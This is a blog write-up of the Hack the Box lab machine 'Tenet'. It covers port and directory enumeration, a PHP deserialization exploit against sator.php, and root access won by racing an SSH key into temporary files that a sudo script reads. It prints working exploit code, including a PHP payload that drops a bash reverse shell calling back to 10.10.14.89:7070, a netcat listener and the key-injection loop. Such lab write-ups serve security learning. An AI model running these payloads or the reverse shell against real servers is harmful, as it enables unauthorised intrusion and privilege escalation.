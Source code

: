 +++
author = "Nick"
categories = ["hack the box", "Linux", "medium", "serialization", "PHP", "PHP Deserialization", "ssh"]
date = 2021-06-12T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2021/06/tenet.png"
slug = "hack-the-box-tenet"
summary = "Welcome back! Today we will be doing the Hack the Box machine - Tenet. This is listed as a medium Linux box, let's see what's in store!"
tags = ["hack the box", "Linux", "medium", "serialization", "PHP", "PHP Deserialization", "ssh"]
title = "Hack the Box - Tenet"

+++


Welcome back! Today we will be doing the Hack the Box machine - Tenet. This is listed as a medium Linux box, let's see what's in store!

As usual, start the recon with `nmap`.

```
Nmap scan report for 10.10.10.223
Host is up (0.048s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Not much of a path forward, let's see what we can find on port 80. When we browse over to port 80, we see a standard `Apache` install page. We'll start sniffing around with `gobuster` to see what we can find.

Command:
`gobuster dir -u 'http://10.10.10.233' -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -t 60`

Nothing out of the ordinary was found, damn. A quick vhost enumeration with `nmap` didn't reveal anything either. In this case we're just going to add tenet.htb to our host lists to see if anything resolves.

Sure enough we get a blog site. We'll repeat the same `gobuster` command from about but using our vhost.

Command:
`gobuster dir -u 'http://10.10.10.233' -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -t 60`

The enumeration shows us that we've working with a Wordpress site. Digging around gives us two users, `protagonist` and `neil`. Neil gives us one comment in particular that is interesting:

{{< figure src="__GHOST_URL__/content/images/2021/06/image.png" >}}

So, we should start looking for `.php` and `.bak` / `.back` files. As well as any items named `sator`. Since this list is small, we can check these by hand by checking our vhost and IP for these file names. The reason we do both IP and Vhost is because there are possibly more Vhosts than we know that could resolve to the IP.

Sure enough, the `10.10.10.223/sator.php` finds a hit:

{{< figure src="__GHOST_URL__/content/images/2021/06/image-1.png" >}}

Along side that, so does the `.bak`:

{{< figure src="__GHOST_URL__/content/images/2021/06/image-2.png" >}}

Now that we've downloaded the file, we can take a look at it.

{{< figure src="__GHOST_URL__/content/images/2021/06/image-3.png" >}}

Looks like we're taking a repo, `arepo`, which is serialized and unserializing it. Looks like we're using a magic method here, `__destruct()`. `PHP Deserialization` is a common thing to see in HTB as well as other CTF's. It's also still realivant to real life applications (unfortunately). Here's some more info on the topic:

* https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md
* https://kishanchoudhary.com/OSWE/php_obj.html
* https://notsosecure.com/remote-code-execution-via-php-unserialize/

We have a few ways to leverage this. We can create a script to call to the `sator.php` URL and run it with PHP locally to gain an RCE that way, or we can can create a serialized value and feed it to `sator.php` URL, let it create the RCE file and then browse to it.

First, let's create the script, which we just copy the first part of the above script:

```php
<?php
class DatabaseExport
{
    public $user_file = 'tenet_5.php';
    public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.14.89/7070 0>&1\'"); ?>';

        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
                echo '[] Database updated';
        }
}

$url = 'http://10.10.10.223/sator.php?arepo=' . urlencode(serialize(new DatabaseExport));
$r = file_get_contents("$url");
$r = file_get_contents("http://10.10.10.223/tenet_5.php");

?>
```
I really dislike `PHP`, just saying. What we did here is simply added a `URL` variable and a `response` variable to take our serialized data and feed it to the endpoint. You could just get the output of the function and `curl` to the endpoint to trigger it as well.

Command:
`nc -lvnp 7070`
`php tenet.php`

{{< figure src="__GHOST_URL__/content/images/2021/06/tenetshell.gif" >}}

We get a shell back! Now we can start to look around and enumerate internally. Right where we land when we get a shell, we see a directory called `Wordpress`. Inside there's the `wp-config.php` file, with credentials for `neil`.

{{< figure src="__GHOST_URL__/content/images/2021/06/image-4.png" >}}

Now we can try to login via `ssh` as `neil`. It works, we're in as `neil` and grab the `users.txt` flag! The first thing we always do once we get a user foothold on a box is `sudo -l`. This gives us an idea:

{{< figure src="__GHOST_URL__/content/images/2021/06/image-5.png" >}}

We check the script, the `addKey()` function is our target in this case.

{{< figure src="__GHOST_URL__/content/images/2021/06/image-6.png" >}}

We can write a `while` loop to keep adding our `ssh` key to any ssh files in tmp. First generate a new ssh key:

Command:
`ssh-keygen`

Now we can write our script:

```bash
while true; do echo "SSH-KEY-HERE" | tee /tmp/ssh* > /dev/null; done
```

Once we run the command, we open a new terminal and try to connect with our new key.

Command:
`ssh -i id_rsa root@tenet.htb`

Boom, we get in!

{{< figure src="__GHOST_URL__/content/images/2021/06/image-7.png" >}}

Another fun box down! If you found this write-up useful, send some respect my way:[https://app.hackthebox.eu/profile/95635](https://app.hackthebox.eu/profile/95635)

